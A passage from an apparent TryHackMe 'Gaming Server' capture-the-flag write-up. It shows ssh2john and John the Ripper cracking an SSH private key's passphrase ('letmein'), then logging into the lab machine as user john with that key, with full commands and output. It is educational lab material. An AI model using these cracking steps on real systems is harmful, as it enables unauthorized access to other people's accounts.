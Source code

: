 # Exploit

## Ssh2John

We use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) to make it readable to [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ ssh2john key > pass.hash    
```

## John The Ripper

Now we can use [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) to crack the hash :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ john  pass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 12 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
letmein          (key)     
1g 0:00:00:00 DONE 2/3 (2025-07-20 18:24) 33.33g/s 30866p/s 30866c/s 30866C/s 123456..pepper
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Now we can use this password to access .
## SSH

I gave the secretKey file the right permissions in a way that I had full access to read and modify the file, while all other users (group members and others) have no access.

`chmod 600 key`

I then logged in to machine via ssh using john as the user and the identity file key :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ ssh -i key john@10.10.141.254
Enter passphrase for key 'key': letmein
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 20 16:28:54 UTC 2025

  System load:  0.0               Processes:           100
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 34%               IP address for ens5: 10.10.141.254
  Swap usage:   0%


```